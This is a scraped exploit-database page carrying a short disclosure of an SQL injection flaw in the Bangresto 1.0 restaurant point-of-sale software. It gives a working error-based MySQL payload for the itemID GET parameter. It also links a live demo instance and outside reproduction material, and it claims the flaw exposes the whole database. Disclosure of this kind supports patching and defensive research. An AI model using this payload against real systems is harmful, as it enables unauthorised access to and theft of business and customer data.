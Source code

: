 ```yaml
---
title: Bangresta 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38113&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-19
fetch_date: 2025-10-04T01:53:05.174087
---
```


# Bangresta 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Bangresta 1.0 SQL Injection Vulnerability

2022-12-18 | CVSS 0.2

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38113
## Title: Bangresto 1.0 SQLi
## Author: nu11secur1ty
## Vendor: https://axcora.com/, https://www.hockeycomputindo.com/2021/05/restaurant-pos-source-code-free.html
## Demo: https://axcora.my.id/bangrestoapp/start.php
## Software: https://github.com/mesinkasir/bangresto
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/Bangresto

## Description:
The `itemID` parameter appears to be vulnerable to SQL injection attacks.
The payload ' was submitted in the itemID parameter, and a database
error message was returned.
The attacker can be stooling all information from the database of this
application.

## STATUS: CRITICAL Vulnerability

[+] Payload:

```MySQL
---
Parameter: itemID (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: itemID=(UPDATEXML(2539,CONCAT(0x2e,0x7171767871,(SELECT
(ELT(2539=2539,1))),0x7170706a71),2327))&menuID=1
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/Bangresto)

## Proof and Exploit:
[href](https://streamable.com/moapnd)

## Time spent
`00:30:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)